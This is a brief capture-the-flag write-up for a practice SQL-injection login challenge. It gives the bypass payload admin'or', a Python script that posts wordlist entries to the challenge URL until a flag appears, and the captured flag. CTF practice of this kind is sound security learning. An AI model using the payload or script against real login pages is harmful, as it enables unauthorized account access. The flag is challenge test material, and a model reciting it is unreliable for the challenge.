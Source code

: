 <h1>Login portal 1</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10003/</p>
<h3>Solution</h3>

<p>Injection : <b>admin'or'</b></p>

```python3
import requests

wordlist = open("../Wordlist/SQL.txt",'r')
url = "http://challenges.ringzer0ctf.com:10003/"
for i in wordlist:
    i = i.strip('\n')
    data = {"username":i,"password":i}
    res = requests.post(url,data=data).text
    if "FLAG" in res:
        print(i,res)
        break
```
<h3>Flag</h3>
<pre>
FLAG-4f885o1dal0q1huj6eaxuatcvn
</pre>
